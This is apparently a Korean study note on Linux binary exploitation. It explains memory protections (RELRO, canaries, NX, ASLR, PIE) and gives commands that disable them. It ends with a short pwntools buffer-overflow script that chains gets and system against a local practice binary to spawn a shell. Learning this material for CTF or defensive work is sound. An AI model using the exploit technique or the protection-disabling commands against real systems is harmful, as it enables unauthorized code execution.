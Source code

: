 ## 시스템 해킹



### 보안 메커니즘 확인

#### RELRO

RELocation ReadOnly의 약자로 메모리에 배치된 어느 부분에 대해 ReadOnly 속성을 부여할 것인지를 결정

GOT Overwrite 공격이 성공하려면 **No RELRO, Partial RELRO**여야 한다.

**Full RELRO**는 프로그램이 시작할 때 공유 라이브러리의 주소를 모두 캐시한 이후에 GOT 영역을 읽기 전용으로 변경하기 때문에 GOT Overwrite공격은 불가능



#### Stack Smash Protection

SSP는 스택 위에서 발생하는 버퍼 오버플로우를 막기 위한 장치. Canary를 로컬변수와 saved ebp사이에 넣어서 함수가 종료될 때 그 값이 다시 써졌는지 판별해 오버플로우를 검출. 발생한다면 해당 프로그램 강제 종료

> gcc에서 -fno-stack-protector 옵션으로 비활성화 가능



#### NX bit

No eXcute bit, 윈도우에서는 DEP(Data Execution Prevention; 데이터 실행 방지)

메모리상에서 실행될 필요가 없는 데이터를 실행 불가능하도록 설정해서 공격자가 셸 코드를 사용해 공격하는 것을 어렵게 만듬.

> gcc에서 -z execstack 옵션을 사용해 NX bit을 사용하지 않고 컴파일 할 수 있다.



#### ASLR

Address Space Layout Randomization 스택과 힙, 공유 라이브러리 등을 메모리 적재 시, 주소의 일부를 랜덤화 하여 추측이 어렵게 함

> off : sudo sysctl -w kernel.randomize_va_space=0
>
> on : sudo sysctl -w kernel.randomize_va_space=2



#### PIE

Position Independent Executable(PIE)는 실행 코드 내의 주소 참조를 모두 상대 주소로 만들어 실행 파일이 메모리의 어느 위치에 위치하더라도 성공적으로 실행될 수 있게 컴파일 된 실행 파일. 실행 파일을 메모리에 적재할 때 위치를 임의적으로 결정할 수 있기 때문에 ASLR로는 할 수 없는 파일의 위치를 무작위로 만들 수 있다.



[리눅스 스택가드 해제](https://manpd.tistory.com/191)

[메모리보호기법](https://d4m0n.tistory.com/28)

```shell
gcc -o test test.c -fno-stack-protector -mpreferred-stack-boundary=2 -zexecstack -no-pie -m32


#ASLR OFF
echo 0 > /proc/sys/kernel/randomize_va_space
```



---



### Using gdb peda 

```shell
pdisas main
context register/stack/code

#특정 스트링 검색
find "/bin/sh"
```



### Bufferover flow

```shell
# 메모리주소 고정
echo 0 > /proc/sys/kernel/randomize_va_space
```



### pwntools test

```python
#!/usr/bin/python

from pwn import *

e = ELF("./pwn")
p = process(e.path)
l = e.libc
raw_input(">>> ")

payload = ''
payload +='a'*68
payload += p32(e.symbols['gets'])
payload += p32(e.symbols['system']) #dummy
payload += p32(e.bss())
payload += p32(e.bss())

p.sendline(payload)
p.sendline("/bin/sh\x00")
p.interactive()
```



#### ASLR 우회

32bit의 경우 주소의 폭도 32bit라 무작위로 만들수 있는 주소도 한정적이다. 프로그램 내에서 사용하는 공용 라이브러리 mmap을 통해 배치되기 때문에 32bit의 경우 8bit; 256개로만 무작위가 가능

